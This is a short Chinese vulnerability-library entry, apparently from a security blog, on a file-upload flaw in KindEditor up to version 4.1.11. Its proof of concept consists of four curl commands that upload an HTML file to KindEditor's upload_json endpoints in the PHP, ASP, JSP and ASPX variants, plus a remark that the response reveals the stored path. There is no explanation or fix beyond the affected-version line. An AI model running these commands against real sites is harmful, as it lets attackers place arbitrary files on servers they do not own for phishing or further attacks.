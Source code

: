 ```yaml
---
title: 'kindeditor上传漏洞'
date: Tue, 22 Sep 2020 16:48:59 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞影响

kindeditor <= 4.1.11

### 漏洞POC

```
curl -F"imgFile=@a.html" http://127.0.0.1/kindeditor/php/upload_json.php?dir=file
curl -F"imgFile=@a.html" http://127.0.0.1/kindeditor/asp/upload_json.asp?dir=file
curl -F"imgFile=@a.html" http://127.0.0.1/kindeditor/jsp/upload_json.jsp?dir=file
curl -F"imgFile=@a.html" http://127.0.0.1/kindeditor/aspx/upload_json.aspx?dir=file 
​```返回值为路径 
```
![](kindeditor%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E/wp_editor_md_426f629be38b94a1a89e63d533be9467.jpg)